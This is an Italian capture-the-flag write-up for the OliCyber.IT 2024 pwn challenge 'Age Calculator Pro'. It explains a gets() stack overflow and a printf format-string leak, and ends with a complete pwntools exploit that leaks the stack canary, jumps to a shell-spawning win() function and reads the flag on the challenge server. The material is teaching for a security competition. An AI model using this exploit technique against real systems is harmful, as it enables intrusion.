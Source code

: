 # OliCyber.IT 2024 - Selezione territoriale

## [pwn] Age Calculator Pro (35 risoluzioni)

Non ho più voglia di ricordarmi quanti anni ho...

`nc agecalculatorpro.challs.olicyber.it 38103`

Autore: Giulia Martino <@Giulia>

## Panoramica

La challenge consiste in un binario molto semplice. Per prima cosa, il programma chiama la funzione `init`, utilizzata per le impostazioni di buffering e per stampare un grosso banner. Dopodichè, chiede all'utente di fornire un nome e lo stampa in output, chiedendo poi all'utente il suo anno di nascita. Converte l'anno di nascita in un intero e, infine, stampa l'età dell'utente. Ispezionando il binario (per esempio con Ghidra), è possibile notare una funzione `win`, che lancia una shell per noi. Il binario non è PIE ma il canary è abilitato.

```console
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Soluzione

La prima cosa da notare in questa challenge è l'utilizzo della funzione `gets` per prendere input dall'utente. Da `man gets`:

```text
DESCRIPTION
       Never use this function.
```

C'è una ragione per cui il manuale Linux ci suggerisce di non usare `gets`: questa funzione legge una stringa da standard input, ma si ferma **soltanto** quando trova un `\n` o `EOF`, indipendentemente da quanto sia il buffer dentro al quale sta leggendo. Non esiste modo di chiedere a `gets` di fermarsi dopo aver letto un certo numero di caratteri; questo può provocare buffer overflows quando l'input alla funzione `gets` è più grande del buffer utilizzato per memorizzarlo.

La funzione `gets` è utilizzata due volte per leggere da `stdin` in un buffer sullo stack. Considerata la presenza di buffer overflow, si può subito pensare a sovrascrivere l'indirizzo di ritorno nello stack con l'indirizzo della funzione `win`. Il binario non è PIE, quindi non abbiamo bisogno di un leak, e possiamo semplicemente incollare l'indirizzo di `win` nel nostro exploit.

C'è un problema da risolvere però: il binario ha la protezione canary abilitata. Se effettuiamo un overflow oltre al buffer sullo stack, con dei byte casuali fino ad arrivare all'indirizzo di ritorno, finiremo per sovrascrivere anche il canary e il nostro programma terminerà a causa di `stack smashing detected`. Abbiamo bisogno di un leak del canary, in modo da sovrascriverlo con il suo stesso valore, impedendo che la sovrascrittura venga identificata e che il programma termini.

Analizzando il binario ancora, possiamo notare l'utilizzo vulnerabile della funzione `printf`:

```c
printf(buffer);
```

Dato che `buffer` è un array controllato, abbiamo una format string vulnerability. Inserendo degli specificatori nel buffer controllato, la funzione `printf` cercherà i suoi parametri sullo stack (anche se parametri non ce ne sono), fornendoci un modo per leggere blocchi dallo stack.

Il modo più semplice è probabilmente inserire diversi specificatori `%p` fino a che non si ottiene effettivamente un canary leak. Il canary è composto da una sequenza di byte casuali lunga 8 byte + un byte nullo, ed è quindi abbastanza semplice capire quali dei leak stampati in output è davvero il canary. Ma è anche possibile utilizzare un debugger per ispezionare lo stack e controllare che l'associazione sia corretta.

![printf leaks](writeup/printf_leaks.png)

Nell'esempio sopra, il canary è il 17esimo valore: `0xf2e23800574f2c00`.  

Infine, abbiamo bisogno di sapere quanto lontano sia il canary dall'inizio del nostro input, così che possiamo allineare tutti i blocchi sullo stack correttamente. Un possibile modo consiste nell'inserire una stringa riconoscibile all'interno del buffer di input (per esempio `AAAAAAAA`), poi analizzare lo stack con un debugger e calcolare l'offset del canary. Nello screenshot sotto, un breakpoint è stato impostato appena dopo la seconda chiamata alla funzione `gets` nella funzione `main`; gli strumenti utilizzati sono `gdb` + [`pwndbg`](https://github.com/pwndbg/pwndbg).

![stack layout](writeup/stack_layout.png)

La linea rosa indica l'inizio del nostro buffer di input; la linea blu indica il canary; la linea verde indica l'indirizzo di ritorno della funzione `main`. Possiamo calcolare la distanza fra l'inizio dell'input e il canary semplicemente sottraendo i loro indirizzi:

```console
In [1]: hex(0x7fffffffdd88 - 0x7fffffffdd40)
Out[1]: '0x48'
```

E' importante notare inoltre che c'è un blocco sullo stack, fra il canary e l'indirizzo di ritorno. Possiamo quindi costruire il payload finale concatenando`0x48` bytes di padding + canary leak + `0x8` bytes di padding + indirizzo della funzione `win`.

## Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

HOST = os.environ.get("HOST", "agecalculatorpro.challs.olicyber.it")
PORT = int(os.environ.get("PORT", 38103))

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
exe = context.binary = ELF(os.path.join(os.path.dirname(__file__), 'build/age_calculator_pro'))

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote(HOST, PORT)
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''

'''.format(**locals())

io = start()

format_string = b"%p." * 20
io.sendlineafter(b"What's your name?\n", format_string)
res = io.recvuntil(b"what's your birth year?", drop=True)
canary = int(res.split(b'.')[16], 16)
print(f"[+] canary: {hex(canary)}")

payload = b"A" * 0x48
payload += p64(canary)
payload += p64(0x0)
payload += p64(exe.sym.win)
res = io.sendline(payload)
io.recvuntil(B"years old!\n")
time.sleep(0.5)
io.sendline(b"cat flag")
res = io.clean(0.5)
io.close()
print(res.decode())

```
